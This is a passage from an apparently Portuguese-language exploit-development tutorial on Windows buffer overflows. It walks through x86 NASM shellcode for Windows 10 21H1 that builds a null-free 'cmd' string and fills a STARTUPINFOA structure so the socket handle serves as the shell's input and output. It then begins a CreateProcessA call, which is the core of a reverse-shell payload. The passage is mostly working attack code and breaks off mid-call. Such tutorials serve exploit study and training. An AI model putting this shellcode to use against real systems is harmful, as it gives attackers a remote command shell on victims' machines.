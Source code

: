 Vamos encontrar o endereço da função no Win10 21H1.

![Enumaração do comando.](/std/winbof/winbof-41.png)

Primeiro precisamos chamar a função “cmdA” que não existe, em seguida vamos usar a função “shr” (Shift Right) que vai mover os bytes à direita e zerar a origem, mais detalhes sobre a função [aqui](https://www.plantation-productions.com/Webster/www.artofasm.com/DOS/ch06/CH06-3.html). O resultado final será “cmd\x00” sem que precisemos digitar o null byte.

Vamos ao código:

```nasm
; CreateProcessA()

mov ebx, 0x646d6341     ; Movendo 'cmda' para EBX evitando null byte
shr ebx, 8              ; Transformando EBX em 'cmd\x00'
push ebx                ; Fazendo push do cmd
mov ecx, esp            ; Fazendo ECX apontar para cmd

; Preenchendo parametro '_STARTUPINFOA'

xor edx, edx            ; Zerando EDX
push esi                ; Enviando hStdError para nosso socket
push esi                ; Enviando hStdOutput para nosso socket
push esi                ; Enviando hStdInput para nosso socket
push edx                ; cbReserved = null
push edx                ; wShowWindow = null
xor eax, eax            ; Zerando EAX
mov ax, 0x0101          ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Fazendo push do dwFlags
push edx                ; dwFillAtribute = null
push edx                ; dwYCountChars = null
push edx                ; dxXCountChars = null
push edx                ; dwYSize = null
push edx                ; dwXSize = null
push edx                ; dwY = null
push edx                ; dwX = null
push edx                ; lpTitle = null
push edx                ; lpDesktop = null
push edx                ; lpReserved = null
add dl, 44              ; cb = 44
push edx                ; Fazendo push da _STARTUPINFOA para a stack
mov eax, esp            ; Fazendo o EAX apontar para ESP, onde esta a _STARTUPINFOA
xor edx, edx            ; Zerando EDX

; Preenchendo o parametro 'PROCESS_INFORMATION'

push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12

; Chamando a CreateProcessA()

push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx, ebx            ; Zerando EBX
push ebx                ; lpCurrentDirectory = nulo
push ebx                ; lpEnvironment = nulo
push ebx                ; dwCreationFlags = nulo
inc ebx                 ; Incrementando 1 ao EBX zerado (bInheritHandles = True)
```